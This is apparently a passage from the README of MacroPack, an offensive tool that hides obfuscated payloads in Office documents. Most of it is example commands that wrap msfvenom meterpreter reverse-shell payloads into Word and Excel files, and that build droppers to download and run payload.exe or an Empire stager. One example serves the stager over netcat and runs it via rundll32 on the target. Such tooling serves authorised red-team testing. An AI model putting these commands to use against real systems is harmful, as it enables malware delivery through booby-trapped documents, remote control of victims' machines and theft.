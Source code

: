 If you want to produce a standalone exe using pyinstaller:  
* Install pyinstaller: pip install pyinstaller
* Double-click on the "build.bat" script.

The resulted macro\_pack.exe will be inside the **bin** directory.  


## Some examples

### MacroPack Community

- List all supported file formats
```bash
macro_pack.exe --listformats
```

- List all available templates
```bash
macro_pack.exe --listtemplates
```

- Obfuscate the vba file generated by msfvenom and puts result in a new VBA file.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba
```

- Obfuscate Empire stager VBA file and generate a MS Word document: 
```bash
macro_pack.exe -f empire.vba -o -G myDoc.docm
```

- Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
```bash
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 
```

- Create a word 97 document containing an obfuscated VBA reverse meterpreter payload inside a share folder
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G \\REMOTE-PC\Share\meter.doc   
```

- Download and execute Empire Launcher stager without powershell.exe by using DROPPER_PS template
```bash
# 1 Generate a file containing Empire lauchcher 
# 2 Make that file available on web server, ex with netcat:
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat empire_stager.cmd; } | nc -l -p 6666 -q1
# 3 Use macro\_pack  to generate DROPPER_PS payload in Excel file
echo http://10.5.5.12:6543/empire_stager.cmd | macro_pack.exe -o -t DROPPER_PS -G join_the_empire.xls
# 4 When executed on target, the macro will download PowerShdll, run it with rundll32, and download and execute stager.
```
